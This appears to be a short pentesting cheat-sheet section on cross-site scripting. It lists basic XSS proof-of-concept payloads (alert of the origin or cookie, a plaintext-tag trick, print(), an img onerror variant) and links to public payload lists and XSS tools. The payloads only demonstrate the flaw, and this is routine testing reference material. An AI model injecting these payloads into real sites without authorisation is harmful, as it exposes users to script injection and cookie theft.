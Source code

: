 #### Payloads
Basic payload
```html
<script>alert(window.origin)</script>
```

Basic payload to display cookie
```html
<script>alert(document.cookie)</script>
```

Payload in case alert() is blocked. Stops rendering HTML and turns it into plaintext.
```html
<script><plaintext></script>
```

Payload to pop up browser print dialog (unlikely to be browser-blocked)
```html
<script>print()</script>
```

Payload that does not contain \<script> tag (useful for DOM attacks). Creates new HTML image object with an onerror that triggers when the image cannot be found:
```html
<img src="" onerror=alert(window.origin)>
```
##### More Payloads
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) or [PayloadBox](https://github.com/payloadbox/xss-payload-list)
#### Tools
 [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser)